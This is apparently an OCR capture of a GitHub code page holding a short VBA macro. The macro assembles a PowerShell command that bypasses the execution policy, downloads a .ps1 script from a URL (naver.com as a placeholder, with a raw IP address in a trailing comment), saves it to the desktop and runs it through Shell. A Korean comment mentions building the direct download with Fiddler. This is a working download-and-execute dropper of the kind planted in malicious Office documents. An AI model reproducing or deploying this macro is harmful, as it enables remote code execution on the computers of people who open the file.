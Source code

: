 Sub test()
'
' test Macro
'
'
Dim downUrl As String
Dim code1 As String


downUrl = "http://naver.com" 'Filler를 사용해서 다이렉트url을 구현했습니다. Fiddler 이용해서 구현해주세요!
'![image](https://user-images.githubusercontent.com/77016353/119981727-eafa5100-bff8-11eb-8ec7-bee208741a14.png)
Dim downDir As String
downDir = "C:\Users\wjddj\OneDrive\Desktop\test\Y.ps1"

code1 = "cmd /k powershell -WindowStyle normal -ExecutionPolicy BypasS -noprofile (New-Object System.Net.WebClient).DownloadFile('" + downUrl + "', '" + downDir + "'); powershell -WindowStyle normal -ExecutionPolicy BypasS -noprofile -file '" + downDir + "'"

Shell code1, 1

MsgBox (code1)

End Sub

'http://naver.com
'http://101.101.211.160:8080/common/test.do
